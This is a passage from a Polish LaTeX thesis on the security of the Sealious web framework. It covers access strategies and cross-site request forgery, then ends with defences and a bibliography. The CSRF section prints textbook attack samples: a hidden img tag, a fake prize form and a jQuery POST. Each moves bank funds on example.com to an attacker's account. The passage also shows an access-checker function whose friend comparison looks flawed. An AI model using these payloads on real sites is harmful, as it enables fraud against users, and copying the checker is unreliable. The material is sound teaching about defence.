  (\texttt{resource\_type.check\_if\_action\_is\_allowed(context,\ "create")}),
  a następnie wielokrotnie podaje dalej dany jej kontekst do
  wywoływanych przez nią funkcji, (np. w
  \texttt{self.resource\_type.validate\_field\_values(context,\ true,\ body)}).

  Dzięki takiemu podejściu żaden użytkownik nie dostanie dostępu do
  zasobu, do którego nie ma uprawnień. Fakt, że jeden kontekst jest
  przekazywany wgłąb do każdego wywołania metody umożliwia tworzenie
  skomplikowanych relacji pomiędzy zasobami i dynamiczne generowanie
  adresów URL do zagnieżdżonych zasobów bez troski o bezpieczeństwo
  danych. Rozpatrzmy to na przykładzie deklaratywnego opisu
  hipotetycznego serwisu społecznościowego:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{new} \VariableTok{Sealious}\NormalTok{.}\AttributeTok{ResourceType}\NormalTok{(}\OperatorTok{\{}
    \DataTypeTok{name}\OperatorTok{:} \StringTok{"person"}\OperatorTok{,}
    \DataTypeTok{fields}\OperatorTok{:} \NormalTok{[}
        \OperatorTok{\{}\DataTypeTok{name}\OperatorTok{:} \StringTok{"given_name"}\OperatorTok{,} \DataTypeTok{type}\OperatorTok{:} \StringTok{"text"}\OperatorTok{,} \DataTypeTok{params}\OperatorTok{:} \OperatorTok{\{}\DataTypeTok{max_length}\OperatorTok{:} \DecValTok{20}\OperatorTok{\}\},}
        \OperatorTok{\{}\DataTypeTok{name}\OperatorTok{:} \StringTok{"surname"}\OperatorTok{,} \DataTypeTok{type}\OperatorTok{:} \StringTok{"text"}\OperatorTok{,} \DataTypeTok{params}\OperatorTok{:} \OperatorTok{\{}\DataTypeTok{max_length}\OperatorTok{:} \DecValTok{25}\OperatorTok{\}\},}
        \OperatorTok{\{}\DataTypeTok{name}\OperatorTok{:} \StringTok{"friends"}\OperatorTok{,} \DataTypeTok{type}\OperatorTok{:} \StringTok{"reference"}\OperatorTok{,} \DataTypeTok{params}\OperatorTok{:\{}
            \DataTypeTok{resource_type}\OperatorTok{:} \StringTok{"person"}\OperatorTok{,}
            \DataTypeTok{multiplicity}\OperatorTok{:} \StringTok{"many-to-many"}
        \OperatorTok{\}\}}
    \NormalTok{]}\OperatorTok{,}
    \DataTypeTok{access_strategy}\OperatorTok{:} \OperatorTok{\{}
        \DataTypeTok{default}\OperatorTok{:} \StringTok{"just_owner"}\OperatorTok{,}
        \DataTypeTok{retrieve}\OperatorTok{:} \StringTok{"owner_or_friends"}
    \OperatorTok{\}}
\OperatorTok{\}}\NormalTok{)}

\KeywordTok{new} \VariableTok{Sealious}\NormalTok{.}\AttributeTok{AccessStrategy}\NormalTok{(}\OperatorTok{\{}
    \DataTypeTok{name}\OperatorTok{:} \StringTok{"owner_or_friends"}\OperatorTok{,}
    \DataTypeTok{item_sensitive}\OperatorTok{:} \KeywordTok{true}\OperatorTok{,}
    \DataTypeTok{checker_function}\OperatorTok{:} \KeywordTok{function}\NormalTok{(context}\OperatorTok{,} \NormalTok{item)}\OperatorTok{\{}
        \ControlFlowTok{if} \NormalTok{(}\VariableTok{context}\NormalTok{.}\AttributeTok{get}\NormalTok{(}\StringTok{"user_id"}\NormalTok{) }\OperatorTok{===} \VariableTok{item}\NormalTok{.}\VariableTok{created_context}\NormalTok{.}\AttributeTok{user_id}\NormalTok{) }\OperatorTok{\{}
            \ControlFlowTok{return} \KeywordTok{true}\OperatorTok{;}
        \OperatorTok{\}}
        \KeywordTok{var} \NormalTok{are_friends }\OperatorTok{=} \KeywordTok{false}\OperatorTok{;}
        \VariableTok{item}\NormalTok{.}\VariableTok{body}\NormalTok{.}\VariableTok{friends}\NormalTok{.}\AttributeTok{forEach}\NormalTok{(}\KeywordTok{function}\NormalTok{(friend)}\OperatorTok{\{}
            \ControlFlowTok{if} \NormalTok{(}\VariableTok{friend}\NormalTok{.}\AttributeTok{id}\OperatorTok{==}\VariableTok{item}\NormalTok{.}\AttributeTok{id}\NormalTok{) }\OperatorTok{\{}
                \NormalTok{are_friends }\OperatorTok{=} \KeywordTok{true}\OperatorTok{;}
            \OperatorTok{\}}
        \OperatorTok{\}}\NormalTok{)}\OperatorTok{;}
        \ControlFlowTok{return} \NormalTok{are_friends}\OperatorTok{;}
    \OperatorTok{\}}
\OperatorTok{\}}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

  Aplikacja opisana w ten sposób zawiera m.in taką ścieżkę REST:

\begin{verbatim}
/api/v1/person/friends/<idOsobyA>/friends/<idOsobyB>/friends/<idOsobyC>
\end{verbatim}

  Dzięki opisanym powyżej cechom Sealiousa użytkownik wykonujący
  powyższe zapytanie dostanie informacje o osobie C tylko, jeśli osoba C
  oraz osoba B są w jego gronie znajomych.
\end{enumerate}

\chapter{Cross-Site Request Forgery
(CSRF)}\label{cross-site-request-forgery-csrf}

Ataki za pomocą CSRF są umożliwione przez fakt, że przeglądarka
internetowa automatycznie dołącza zawartość pliku cookie zapisanego
przez daną domenę do każdego zapytania HTTP(S) wysłanego na tę domenę.
Atakujący może użyć tego faktu do wywoływania metod na serwerze podatnej
aplikacji w imieniu użytkownika podlegającego atakowi.

\section{Przykłady ataków typu CSRF w dużych
aplikacjach}\label{przykux142ady-atakuxf3w-typu-csrf-w-duux17cych-aplikacjach}

Podatności aplikacji na CSRF potrafią być dotkliwe w skutkach, i nawet
deweloperom tworzącym oprogramowanie obsługujące instytucję finansową
zdarza się nie zabezpieczyć ich aplikacji przed takimi atakami. Oto
kilka przykładów aplikacji historycznie podatnych na CSRF
(\emph{Cross-Site Request Forgeries: Exploitation and Prevention},
Zeller \& Felten, 2008):

\begin{itemize}
\tightlist
\item
  \textbf{ING Direct}---brak zabezpieczeń przed CSRF umożliwił
  atakującym dokonywanie przelewów środków z konta atakowanego
  użytkownika
\item
  \textbf{YouTube}---przed załataniem dziury w bezpieczeństwie
  \emph{większość} metod serwera nie była odporna na CSRF. Atakujący
  mógł m.in. zarządzać playlistami atakowanego użytkownika, oznaczać w
  jego imieniu filmy jako ulubione/polubione lub nawet dodawać/usuwać
  kanały z/do listy subskrybowanych.
\item
  \textbf{The New York Times}---podatność na CSRF sprawiła, że atakujący
  mógł poznać adres e-mail dowolnego użytkownika oraz wysyłać spam za
  pośrednictwem serwerów owego serwisu.
\end{itemize}

\section{Przebieg ataku}\label{przebieg-ataku-3}

Są dwa główne sposoby, w jakie można dokonać ataku z wykorzystaniem
CSRF:

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  \textbf{podmiana atrybutu \texttt{src} w tagach html}

  Przeglądarka internetowa po napotkaniu atrybutu \texttt{src} np.
  wewnątrz tagu \texttt{img} wykonuje zapytanie \texttt{HTTP\ GET} na
  adres URL podany jako wartość tego atrybutu. W nagłówkach tego
  zapytania będzie umieszczona zawartość pliku cookie użytkownika dla
  domeny tego URL---\textbf{nawet, jeśli ów tag pochodzi z dokumentu
  HTML, który został wczytany z \emph{innej domeny}}. Oznacza to, że
  jeżeli użytkownik ma aktywną sesję w atakowanej aplikacji, serwer
  potraktuje to zapytanie jako zapytanie zalogowanego użytkownika, bez
  jego wiedzy.

  Rozpatrzmy taki atak na przykładzie banku internetowego. Załóżmy, że
  bank ten udostępnia ścieżkę:

\begin{verbatim}
http://example.com/app/przelej_pieniadze?ilosc=1500
&konto_docelowe=32341424
\end{verbatim}

  Atakujący tworzy dostępny w Internecie dokument HTML, który zawiera
  fragment:

\begin{verbatim}
<img src="http://example.com/app/przelej_pieniadze?ilosc=1500
            &konto_docelowe=:numer_konta_atakujacego:"
     width="0"
     height="0'
/>
\end{verbatim}

  Następnie, być może za pomocą metod socjotechnicznych, prowokuje
  użytkownika do wczytania tego dokumentu w jego przeglądarce.
  Przeglądarka wykonuje zapytanie GET na URL:

\begin{verbatim}
http://example.com/app/przelej_pieniadze?ilosc=1500
            &konto_docelowe=:numer_konta_atakujacego:
\end{verbatim}

  Jeżeli w tym czasie użytkownik był zalogowany do tego banku
  internetowego, to zostaną z jego konta pobrane pieniądze---bez jego
  udziału i wiedzy.
\item
  \textbf{spreparowane formularze i AJAX}

  Wykonanie ataku za pomocą CSRF jest odrobinę bardziej skomplikowane w
  przypadku zapytań POST, niż w przypadku zapytań GET. Rozważmy ponownie
  przykład banku internetowego, tym razem obsługującego przelew
  pieniężny za pośrednictwem ścieżki HTTP POST:

\begin{verbatim}
http://example.com/app/przelej_pieniadze
\end{verbatim}

  z parametrami \texttt{ilosc} oraz \texttt{konto\_docelowe}.

  Sposób \#1 działa tylko dla zapytań GET, więc dla zapytania POST
  atakujący musi albo spreparować formularz z ukrytymi polami i zachęcić
  użytkownika do kliknięcia:

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<h1>} \NormalTok{Jesteś naszym 1.000.000 klientem---wygrałeś Mercedesa! }\KeywordTok{</h1>}
\KeywordTok{<form}\OtherTok{ method=}\StringTok{"POST"}\OtherTok{ action=}\StringTok{"http://example.com/app/przelej_pieniadze"}\KeywordTok{>}
    \KeywordTok{<input}\OtherTok{ type=}\StringTok{"hidden"}\OtherTok{ name=}\StringTok{"ilosc"}\OtherTok{ value=}\StringTok{"1500"}\KeywordTok{/>}
    \KeywordTok{<input}\OtherTok{ type=}\StringTok{"hidden"}\OtherTok{ name=}\StringTok{"konto_docelowe"} 
\OtherTok{        value=}\StringTok{":numer_konta_atakujacego:"}\KeywordTok{/>}
    \KeywordTok{<input}\OtherTok{ type=}\StringTok{"submit"}\OtherTok{ value=}\StringTok{"Odbierz nagrodę"}\KeywordTok{/>}
\KeywordTok{</form>}
\end{Highlighting}
\end{Shaded}

  lub samodzielnie wykonać zapytanie POST za pomocą kodu JavaScript
  osadzonego w podłożonym użytkownikowi dokumencie:

\begin{Shaded}
\begin{Highlighting}[]
\VariableTok{$}\NormalTok{.}\AttributeTok{post}\NormalTok{(}\StringTok{"http://example.com/app/przelej_pieniadze"}\OperatorTok{,} \OperatorTok{\{}
    \DataTypeTok{ilosc}\OperatorTok{:} \DecValTok{1500}\OperatorTok{,}
    \DataTypeTok{konto_docelowe}\OperatorTok{:} \StringTok{":numer_konta_atakujacego:"}
\OperatorTok{\}}\NormalTok{)}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\section{Zapobieganie CSRF}\label{zapobieganie-csrf}

Aby zapobiec atakom CSRF przy użyciu sposobu \#1 z powyższej listy,
wystarczy upewnić się, że wszystkie metody zmieniające stan aplikacji są
udostępniane pod ścieżkami POST, a nie GET. Niestety to nie wystarczy,
aby zabezpieczyć się przed atakami przy użyciu sposobu \#2.

Jednym ze sposobów na to, aby w pełni uodpornić aplikację na CSRF jest
wdrożenie dla wszystkich (ew. tylko najbardziej newralgicznych) ścieżek
HTTP zabezpieczenia w postaci \textbf{dodatkowego tokenu
uwierzytelniania}. Token ten jest generowany przy logowaniu i
przechowywany w zmiennej sesyjnej. Musi istnieć bezpieczny sposób na
wysłanie tego tokenu do aplikacji klienckiej. Token musi być obecny w
każdym zapytaniu HTTP na zabezpieczoną przed CSRF ścieżkę. Opcjonalnie,
token może wygasać po upływie określonej ilości czasu i wymagać
odnawiania.

Innym sposobem jest bardzo staranne upewnianie się, że użytkownik
faktycznie chciał wykonać operację reprezentowaną przez daną ścieżkę.
Można to osiągnąć np. poprzez system CAPTCHA lub kody SMS.

\section{Jak Sealious zapobiega CSRF}\label{jak-sealious-zapobiega-csrf}

W obecnej najnowszej wersji (\texttt{0.7-alpha}) Sealious\footnote{Bardziej
  konkretnie: plugin \texttt{sealious-channel-rest} do Sealiousa}
zapobiega tylko CSRF dokonywanym za pomocą sposobu \#1---poprzez
nieudostępnianie metod modyfikujących stan aplikacji pod ścieżkami GET.

Planujemy, aby w wersji \texttt{0.7-stable} Sealious w pełni
zabezpieczał napisane w nim aplikacje przed CSRF, poprzez implementację
opisanego w poprzedniej sekcji sposobu z \textbf{dodatkowym tokenem
tokenem uwierzytelniania}. Wprowadzi to pewne zmiany w procesie
autoryzacji:

\begin{itemize}
\tightlist
\item
  aplikacja kliencka po zalogowaniu otrzyma id sesji \emph{oraz token
  CSRF}. Jej zadaniem będzie przechowywanie go w pliku cookie\footnote{Może
    się wydawać, że przechowywanie owego dodatkowego tokenu autoryzacji
    w pliku cookie niweczy nasze zamiary--przecież sednem ataku CSRF
    jest fakt, że id sesji trzymane w cookie jest zawsze dopisywane
    przez przeglądarkę do zapytań HTTP wysłanych na serwer naszej
    aplikacji. Jak dodanie drugiego tokenu do pliku cookies ma nas
    obronić przed tym atakiem? Otóż serwer w trakcie sprawdzania
    obecności tokenu w zapytaniu nie będzie go szukał w nagłówkach
    \texttt{Cookie}---będzie oczekiwał obecności nagłówka
    \texttt{csrfToken}, niezależnego od \texttt{Cookie}, i to jego
    wartość będzie porównywał z tokenem przechowywanym w zmiennej
    sesyjnej. Brak tego nagłówka lub zła jego wartość będą się wiązać z
    odmową dostępu. W przeglądarce internetowej tylko skrypt pochodzący
    z danej domeny ma dostęp do jej pliku cookie na komputerze
    użytkownika, więc tylko taki skrypt jest w stanie dopisać ten token
    do \emph{nagłówka} HTTP, co skutecznie zapobiega CSRF.} i
  umieszczanie go w nagłówkach każdego zapytania wysyłanego do serwera.
\end{itemize}

\chapter*{Podsumowanie}\label{podsumowanie}
\addcontentsline{toc}{chapter}{Podsumowanie}

Aplikacje pisane w Sealiousie są domyślnie chronione przed wieloma
typami ataków mogących skutkować ujawnieniem poufnych danych lub
wykonaniem nieautoryzowanych operacji. Deweloper tworzący aplikację
sealiousową nie musi poświęcać zbyt dużo uwagi jej
bezpieczeństwu---Sealious robi to za niego.

\chapter*{Załączniki}\label{zaux142ux105czniki}
\addcontentsline{toc}{chapter}{Załączniki}

\subsection{Załącznik 1}\label{zaux142ux105cznik-1}

\subsubsection{Kod źródłowy frameworka
Sealious}\label{kod-ux17aruxf3dux142owy-frameworka-sealious}

dostępny pod adresem http://github.com/sealious/sealious

\chapter*{Bibliografia}\label{bibliografia}
\addcontentsline{toc}{chapter}{Bibliografia}

\hypertarget{refs}{}
\hypertarget{ref-twitterux5fidor}{}
Aboul-Ela, A. (2014, wrzesień 15). \emph{Twitter Vulnerability Could
Delete Credit Cards from Any Twitter Account}. Pobrano 2 styczeń 2016, z
\url{https://www.secgeek.net/twitter-vulnerability/}

\hypertarget{ref-130mux5fcards}{}
BBC News. (2009, sierpień 18). \emph{US man „stole 130m card numbers''}.
BBC. Pobrano 2 listopad 2015, z
\url{http://news.bbc.co.uk/2/hi/americas/8206305.stm}

\hypertarget{ref-md5ux5fnotux5fsuitable}{}
Dougherty, C. (2008). \emph{Vulnerability Note VU\#836068: MD5
vulnerable to collision attacks}. CERT. Pobrano 11 listopad 2015, z
\url{https://www.kb.cert.org/vuls/id/836068}

\hypertarget{ref-rainbowux5ftables}{}
\emph{Free Rainbow Tables}. (b.d.). Pobrano 2 grudzień 2015, z
\url{https://freerainbowtables.com/}

\hypertarget{ref-yahooux5fbreach}{}
Hamilton, D. (2012, czerwiec 12). \emph{Yahoo's password leak: What you
need to know}. c\textbar{}net. Pobrano 30 grudzień 2015, z
\url{http://www.cnet.com/news/yahoos-password-leak-what-you-need-to-know-faq/}

\hypertarget{ref-ajaxux5fguide}{}
Holender, A. T. I. (2008). \emph{Ajax: The Definitive Guide: Interactive
applications for the Web}. O'Reilly Media.

\hypertarget{ref-pbkdf2ux5frecommended}{}
Kaliski, B. (2000, wrzesień). \emph{PKCS \#5: Password-Based
Cryptography Specification, Version 2.0}. Internet Engineering Task
Force.

\hypertarget{ref-uuidux5frfc}{}
Leach, P., Microsoft, Mealling, M., Refactored Networks, LLC, Salz, R.,
\& DataPower Technology, Inc. (2006, lipiec). \emph{A Universally Unique
IDentifier (UUID) URN Namespace}. Internet Engineering Task Force.

\hypertarget{ref-md5ux5fnotux5fsuitableux5fms}{}
Microsoft. (2008). \emph{Research proves feasibility of collision
attacks against MD5}. Microsoft Security TechCenter.

\hypertarget{ref-nosqlux5fpreventsux5finjection}{}
MongoDB. (2014). \emph{MongoDB FAQ: How does MongoDB address SQL or
Query injection?} MongoDB official website. Pobrano 3 listopad 2015, z
\url{https://docs.mongodb.org/manual/faq/developers/\#how-does-mongodb-address-sql-or-query-injection}

\hypertarget{ref-nosqlux5finjection}{}
Oftedal, E. (2010, czerwiec 27). \emph{NOSQL-injection}. Insomnia and
the Hole in the Universe. Pobrano 13 listopad 2015, z
\url{http://erlend.oftedal.no/blog/?blogid=110}

\hypertarget{ref-facebookux5fidor}{}
Prakash, A. (2015, grudzień 13). \emph{How I could have removed all your
Facebook notes}. Pobrano 3 styczeń 2016, z
\url{http://www.anandpraka.sh/2015/12/summary-this-blog-post-is-about.html}

\hypertarget{ref-lulzux5fsecux5fsony}{}
Ridge, S. (2011, czerwiec 6). \emph{LulzSec Hacker Arrested, Group Leaks
Sony Database}. Epoch Times. Pobrano 2 listopad 2015, z
\url{http://www.theepochtimes.com/n3/1497299-lulzsec-member-arrested-group-leaks-sony-database/}

\hypertarget{ref-citiux5fidor}{}
Schwarz, N. D., \& Dash, E. (2011, czerwiec 13). \emph{Thieves Found
Citigroup Site an Easy Entry}. The New York Times.

\hypertarget{ref-superfishux5fssl}{}
SSL Support Team. (2015, luty 24). \emph{Superfish Adware: Uh Oh,
Lenovo}. SSL.com. Pobrano 3 styczeń 2016, z
\url{https://www.ssl.com/article/superfish-adware-uh-oh-lenovo/}

\hypertarget{ref-linkedinux5fbreach}{}
Vaas, L. (2015, luty 25). \emph{LinkedIn settles class action suit over
2012 unsalted password leak}. Naked Security. Pobrano 30 grudzień 2015,
z
\url{https://nakedsecurity.sophos.com/2015/02/25/linkedin-settles-class-action-suit-over-2012-unsalted-password-leak/}

\hypertarget{ref-xssed}{}
w. (2015). \emph{XSS Archive}. XSSed. Pobrano 18 grudzień 2015, z
\url{http://www.xssed.com/archive}

\hypertarget{ref-owaspux5ftopux5ften}{}
Wichers, D. (2013, listopad 15). \emph{OWASP top 10 - 2013: The ten most
critical web application security risks}. Open Web Security Project.

\hypertarget{ref-csrfux5fexamples}{}
Zeller, W., \& Felten, E. W. (2008, październik 15). \emph{Cross-Site
Request Forgeries: Exploitation and Prevention}. Berkeley University of
California.

\end{document}
